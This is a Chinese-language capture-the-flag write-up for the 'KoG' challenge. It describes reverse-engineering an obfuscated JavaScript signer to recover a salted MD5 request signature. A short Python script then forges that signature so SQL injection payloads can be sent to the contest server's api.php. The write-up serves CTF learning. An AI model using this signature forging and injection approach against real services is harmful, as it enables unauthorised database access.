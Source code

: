 ## KoG

发现`Module.main`会对参数为纯数字的时候进行签名后，传给api.php，但有其他字符时不予签名。
仔细观察`functionn.js`，可以发现经过c++符号修饰的函数名，可以扔到`c++filt`里查看：
```
~$ c++filt _ZN5HASH16updateEPKhj
HASH1::update(unsigned char const*, unsigned int)
```
可知有个HASH1的类，仔细寻找代码里隐藏的常数可以知道是md5。


```javascript
function __ZN5HASH16updateEPKhj($this,$input,$length) {
 $this = $this|0;
 $input = $input|0;
 $length = $length|0;
```
然后在上面的`__ZN5HASH16updateEPKhj`update函数入口下断点，每次停下的时候在console里把`HEAP`里的`$input`指针指向的位置打出来看看，就知道传入了哪些字符串。一开始程序会传入"Start_here_"作为提示，但后来发现这个字符串是不需要的。事实上，把其他传进来的字符串拼接后，发现`functionn.js`做的就是return md5("d727d11f6d284a0d%s This_is_salt%s" % (payload, timestamp))，然后我们就可以自己对payload签名了，在payload中进行sql注入即可。


脚本如下：
```py
# __ZN5HASH16updateEPKhj
payload = sys.argv[1]
print payload
hash = hashlib.md5("d727d11f6d284a0d%s This_is_salt1489820887"%payload).hexdigest()
print requests.get('http://202.120.7.213:11181/api.php', params={'id':payload, 'hash':hash, 'time':'1489820887'}).text
```
